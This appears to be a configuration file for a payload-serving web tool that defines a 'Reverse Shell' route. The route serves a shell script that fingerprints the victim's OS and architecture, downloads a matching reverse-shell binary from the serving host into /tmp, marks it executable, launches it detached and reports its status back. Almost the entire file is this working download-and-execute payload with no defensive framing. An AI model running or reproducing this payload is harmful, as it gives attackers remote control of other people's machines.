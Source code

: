 ```yaml
---
title: Reverse Shell
description: Requires bind-shell in static dir
weight: 1
pattern: /reverse.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    OS=$(uname)
    ARCH=$(uname -m)
    curl {{.Request.Host}}/mdaas/$OS/$ARCH/reverse-shell > /tmp/rs
    chmod +x /tmp/rs
    curl -d "$(bash -c "/tmp/rs & disown 2>&1" & )"  {{.Request.Host}}/l/status/reverse-shell
---
```

